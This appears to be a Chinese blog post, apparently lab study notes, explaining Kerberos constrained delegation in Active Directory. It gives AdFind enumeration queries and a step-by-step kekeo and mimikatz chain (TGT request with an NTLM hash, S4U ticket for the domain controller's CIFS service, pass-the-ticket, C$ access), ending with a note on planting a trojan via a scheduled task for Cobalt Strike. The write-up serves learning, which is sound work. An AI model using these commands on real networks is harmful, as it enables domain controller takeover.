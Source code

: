 ```yaml
---
layout:     post
title:      约束委派
subtitle:   约束委派的利用(大佬勿喷🙈🙊🙉)
date:       2022-12-13
author:     Orang
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Attack
---
```


>on the way。
>
>感谢[迪总](http://xiaodi8.com)教学
>
>[我的博客](https://hujieuse.github.io/)

# 前言

## 域委派

将域用户的权限委派给服务账号，委派之后，服务账号就可以以域用户的身份去做域用户能够做的事。

注意：能够被委派的用户只能是服务账号或者机器账号。

1.机器账户:活动目录中的computers组内的计算机，也被称为机器账号。

2.服务账号：域内用户的一种类型，是服务器运行服务时所用的账号，将服务运行起来加入域内，域用户通过注册SPN也能成为服务账号。

# 约束委派

原理：

由于非约束委派的不安全性，微软在windows server 2003中引入了约束委派，对Kerberos协议进行了拓展，引入了SService for User to Self (S4U2Self)和 Service for User to Proxy (S4U2proxy)。

利用场景：

攻击者控制了服务A的账号，并且服务A配置了到域控的CIFS服务的约束性委派。则攻击者可以先使用S4u2seflt申请域管用户（administrator）访问A服务的ST1，然后使用S4u2Proxy以administrator身份访问域控的CIFS服务，即相当于控制了域控。

## 设置约束委派

机器账户的约束委派设置

![image-20221213205158396](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213205158396.png)

服务账户的约束委派设置

mary是普通域用户 默认是没有委派设置的

![image-20221213205233818](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213205233818.png)

给域用户注册SPN：

在域控上执行setspn -U -A priv/test mary。

![image-20221213205354490](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213205354490.png)

然后查看mary用户

![image-20221213205422743](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213205422743.png)

已经有了委派属性然后设置为约束委派。

查询机器主机配置约束委派

```
AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
```

![image-20221213211007750](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213211007750.png)

查询服务账户

```
AdFind -b "DC=god,DC=org" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
```

![image-20221213211046766](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213211046766.png)

### ## 利用方式

利用条件：

一台机器权限

获取配置了约束委派的服务账户或者机器账户的凭据(明文密码 hash都可)

利用方式：

1、获取用户的票据

```
kekeo "tgt::ask /user:dbadmin /domain:god.org /NTLM:518b98ad4178a53695dc997aa02d455c /ticket:administrator.kirbi" "exit"
```

![image-20221213211222541](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213211222541.png)

2、利用用户票据获取域控票据

```
kekeo "tgs::s4u /tgt:TGT_dbadmin@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi /user:Administrator@god.org /service:cifs/owa2010cn-god.god.org" "exit"
```

![image-20221213211506054](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213211506054.png)

3、导入票据到内存

```
mimikatz kerberos::ptt TGS_Administrator@god.org@GOD.ORG_cifs~owa2010cn-god.god.org@GOD.ORG.kirbi
```

![image-20221213211817920](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213211817920.png)

4、连接通讯域控

```
dir \\owa2010cn-god.god.org\c$
```

![image-20221213212957176](C:\Users\26232\AppData\Roaming\Typora\typora-user-images\image-20221213212957176.png)

ps: 中间好几次导入票据仍然拒绝连接，重启就好了，没找到原因。

5、上线cs：

copy🐎，然后schtasks 创建计划任务，就可以实现cs上线。



